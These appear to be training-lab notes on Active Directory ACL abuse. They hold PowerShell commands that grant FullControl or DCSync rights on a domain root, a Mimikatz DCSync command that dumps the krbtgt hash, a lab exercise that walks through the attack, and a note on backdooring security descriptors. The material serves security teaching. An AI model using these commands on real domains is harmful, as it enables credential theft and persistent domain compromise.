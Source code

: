 # Rights Abuse

• There are even more interesting ACLs which can be abused.

• For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

#### Add FullControl rights:
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights All -Verbose
```

#### Using Active Directory Module and Set-ADACL:
```powershell
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```

#### Add rights for DCSync:
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose
```

#### Using ActiveDirectory Module and Set-ADACL:
```powershell 
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```

#### Execute DCSync:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync/user:dcorp\krbtgt"'
```

# Learning Objective 12

• Check if studentx has Replication (DCSync) rights.

• If yes, execute the DCSync attack to pull hashes of the krbtgt user.

• If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.

# Security Descriptors

• It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users. 

• Administrative privileges are required for this.

• It, of course, works as a very useful and impactful backdoor mechanism.
